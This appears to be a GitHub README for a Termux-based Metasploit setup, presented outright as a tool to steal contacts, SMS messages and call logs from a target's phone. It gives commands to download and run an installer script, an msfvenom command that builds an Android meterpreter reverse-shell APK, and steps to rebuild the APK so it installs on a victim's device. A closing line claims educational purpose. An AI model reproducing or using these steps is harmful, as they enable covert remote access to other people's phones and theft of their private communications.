 # metasploit
This tool will help you to steal contacts, sms, call logs and other thing of Target Mobile.
<p align="center"><img src="https://spportcovid19patient.000webhostapp.com/metasploit-696x363.png"></p>

<p align="center">
<img src="https://img.shields.io/badge/Python-3-brightgreen.svg?style=plastic">
<img src="https://img.shields.io/badge/Docker-✔-blue.svg?style=plastic">
</p>

<p align="center">
  <a href="https://twitter.com/jeopardy4u"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://instagram.com/loathfaith"><b>Instagram</b></a>
  <span> - </span>
  <a href="https://github.com/loathsomeguy"><b>Tej's Page</b></a>
</p>

## Installation

### Termux

```bashapt update && upgrade
termux-setup-storage
pkg update && pkg upgrade -y
apt-get install curl
apt-get install wget
apt-get install git
pkg install postgresql
wget https://raw.githubusercontent.com/loathsomeguy/metasploit/main/metasploit.sh
chmod +x metasploit.sh
./metasploit.sh
```
## After installation complete
Start `postgresql`
```bash
./postgresql_ctl.sh start
```
And run `msfconsole`
```bash
msfconsole
```
## cmd to generate `payload`
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.29.29 LPORT=6767 R > /sdcard/payload.apk
```

## What will be my `LHOST & LPORT`?
```
LHOST: your local ip of wifi/mobile network

LPORT: you can use any port
```
## Payload Not installing, There was a problem parsing the package?
```
1. Install apk editor pro in your mobile
2. Open Apk Editor Pro and "select an apk fiel and choose your payload"
3. Click "FULL EDIT (Resource Re-Build)"
4. Select Manifest in bottom right corner
5. Now Search for SDK and change target sdk version to 22
6. Now save and again save to rebuild the apk
7. Go to APK Editor Pro folder and install that File

```
## How it is useful?

* It is used to retrieve all the messages, contacts, call-logs from the Target Mobile on the same or different Network. However you need to learn how to do port-forwarding in order to do it on different network.

## Warning
***This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.***
